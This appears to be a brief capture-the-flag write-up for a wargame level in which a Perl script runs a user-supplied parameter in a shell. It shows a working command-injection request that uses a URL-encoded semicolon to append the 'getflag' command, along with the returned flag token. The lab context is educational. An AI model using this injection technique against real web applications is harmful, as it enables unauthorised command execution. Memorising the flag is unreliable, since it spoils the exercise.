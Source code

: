 # level04

- level04.pl execute x parameter from user

- we can execute `echo` then getflag in shell with `echo ...;getflag`

- in html url `;` is `%3B` so we can escape execute echo the getflag

- `curl 0:4747?x=%3Bgetflag`
    > 
    > Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
